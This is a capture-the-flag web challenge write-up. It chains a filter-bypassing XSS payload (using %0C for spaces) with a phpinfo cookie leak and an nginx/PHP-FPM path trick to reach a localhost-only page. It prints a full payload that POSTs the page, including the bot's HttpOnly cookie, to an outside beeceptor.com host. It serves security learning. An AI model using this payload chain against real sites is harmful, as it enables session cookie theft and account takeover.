 ## Description 
  Just to warm you up for the next Fight :"D
## Walkthrough:
  **the challenges was provided with a src code
  the src code is made of 4 main files 
  1- index.php 
  2- info.php
  3- bot.js
  4- nginx.conf**

  **The flag is in the bot.js cookie with a httponly attribute this means that JS cannot access the cookie**

  **1-index.php**
  
  ![image](https://github.com/user-attachments/assets/7d144810-397a-4ae2-91f0-b63c47938092)

  **so it is clear that we can get xss from the name get parameter but how?**

  **The main problem is in the Enhanced_Trim function that replaces the defined charset with "" so how can we bypass it to make an alert?**

  **at first i looked for alternatives for the space and found that %0C can work so the payload to make a simple alert -> <img%0Csrc=x%0Conerror=alert``>**

  **but this doesn't have any value since we cannot use JS to steal the cookie because of the httponly attribute on the cookie**

  **the solution was in the info.php that views the phpinfo**

  ![image](https://github.com/user-attachments/assets/b0ad6b6d-cf28-4f41-9bf4-313659f4ac4c)

  **so how we can use phpinfo to get the bot cookie?**
  
  **when a user visits the phpinfo page it reflects its cookie in the response even the HttpOnly ones like this**

  ![phpinfo-dvwa-1](https://github.com/user-attachments/assets/fbce6706-e779-43e4-be72-60b4c27ef1cd)


  **so now we can make the bot visit the info.php page then take the response and send it to our server right? wrong, this will not work because of nginx.conf lets look at it**

  ![image](https://github.com/user-attachments/assets/e8283328-e2fa-4412-947c-aa0eddddba59)

  **so in the nginx.conf it says that the info.php is only accessible from the localhost (the bot doesnt see the localhost of the challange so it cannot access it)**

  **that solution was in the last part of the configuration that includes and runs any file endwith .php so we can it to access the info.php right?**

  **I found this on hacktricks that allowed me to bypass the validation and access the info.php (https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#php-fpm)**

  **so now we can access the info.php like this -> /info.php/index.php**

  ![image](https://github.com/user-attachments/assets/a822c94b-027c-498d-92de-f019cbc9e6e4)

  **so now we can make the bot visit the /info.php/index.php and get the response and send it to our server**

  ```
  payload ->
  <img%0Csrc=x%0Conerror='fetch("info.php%252Findex.php")%0C.then(response%0C=>%0Cresponse.text())%0C.
then(data%0C=>%0Cfetch("https://qlashx.free.beeceptor.com/",%0C{method:"POST",%0Cheaders:{%0C"Content-Type":"application/x-www-form-urlencoded"},%0Cbody:"data="%0C%2BencodeURIComponent(data)})%0C)'> 
  ```


    ![image](https://github.com/user-attachments/assets/943c34c6-11f1-4835-81dd-e08e9c665855)



`flag -> idek{Ghazy_N3gm_Elbalad} `
